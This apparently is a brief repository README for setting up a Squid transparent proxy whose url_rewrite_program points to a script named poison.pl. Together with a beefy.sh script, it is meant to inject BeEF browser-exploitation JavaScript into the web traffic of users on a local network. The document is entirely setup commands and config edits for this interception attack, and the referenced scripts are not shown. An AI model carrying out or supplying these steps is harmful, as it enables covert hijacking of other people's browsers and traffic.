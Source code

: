 # Squid Proxy Beef-xss JavaScript

	apt-get update
	apt-get dist-upgrade
	apt-get -y install squid3

kate -> Open: /etc/squid3/squid.conf
Edit (Line 588): acl localnet src 192.168.0.0/16
Edit (Line 644): http_access allow localnet
Edit (Line 868): http_port 3128 transparent
Add (Line: *end*): url_rewrite_program /root/poison.pl
Save

	./beefy.sh
	service apache2 restart
	service squid3 restart

